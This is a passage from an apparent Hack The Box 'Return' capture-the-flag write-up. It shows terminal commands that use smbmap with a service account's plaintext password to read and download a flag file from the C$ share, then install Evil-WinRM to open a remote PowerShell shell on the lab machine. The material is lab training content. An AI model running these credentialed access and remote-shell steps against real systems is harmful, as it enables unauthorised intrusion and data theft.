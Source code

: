 ```sh
        dw--w--w--                0 Wed May 26 09:51:28 2021    Videos

┌──(root💀kali)-[~/htb/return]
└─# smbmap -H return.local -u svc-printer -p '1edFg43012!!' -r C$/Users/svc-printer/Desktop
[+] IP: return.local:445        Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        C$                                                      READ, WRITE
        .\C$Users\svc-printer\Desktop\*
        fw--w--w--               34 Fri Oct 15 06:22:27 2021    user.txt
```

We found the user flag which we can get now if we wanted:

```sh
┌──(root💀kali)-[~/htb/return]
└─# smbmap -H return.local -u svc-printer -p '1edFg43012!!' -r C$/Users/svc-printer/Desktop -A 'user.txt'
[+] IP: return.local:445        Name: unknown
[+] Starting search for files matching 'user.txt' on share C$.
[+] Match found! Downloading: C$Users\svc-printer\Desktop\user.txt
```

## Evil-WinRM

With credentials for a user account we can get a interactive shell using [Evil-WinRM](https://github.com/Hackplayers/evil-winrm):

```sh
┌──(root💀kali)-[~/htb/return]
└─# gem install evil-winrm
Fetching httpclient-2.8.3.gem
Fetching builder-3.2.4.gem
Fetching multi_json-1.15.0.gem
<SNIP>
Happy hacking! :)
Successfully installed evil-winrm-3.3
Parsing documentation for rubyntlm-0.6.3
Installing ri documentation for rubyntlm-0.6.3
<SNIP>
Done installing documentation for rubyntlm, nori, multi_json, little-plugger, logging, httpclient, builder, gyoku, gssapi, erubi, winrm, winrm-fs, logger, evil-winrm after 6 seconds
14 gems installed
```

```sh
┌──(root💀kali)-[~/htb/return/evil-winrm]
└─# evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
Evil-WinRM shell v3.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents> menu

   ,.   (   .      )               "            ,.   (   .      )       .   
  ("  (  )  )'     ,'             (     '    ("     )  )'     ,'   .  ,)  
.; )  ' (( (" )    ;(,      .     ;)  "  )"  .; )  ' (( (" )   );(,   )((   
_".,_,.__).,) (.._( ._),     )  , (._..( '.._"._, . '._)_(..,_(_".) _( _')  
\_   _____/__  _|__|  |    ((  (  /  \    /  \__| ____\______   \  /     \  
 |    __)_\  \/ /  |  |    ;_)_') \   \/\/   /  |/    \|       _/ /  \ /  \ 
 |        \\   /|  |  |__ /_____/  \        /|  |   |  \    |   \/    Y    \
/_______  / \_/ |__|____/           \__/\  / |__|___|  /____|_  /\____|__  /
        \/                               \/          \/       \/         \/

       By: CyberVaca, OscarAkaElvis, Jarilaos, Arale61 @Hackplayers
[+] Dll-Loader 
[+] Donut-Loader 
[+] Invoke-Binary
```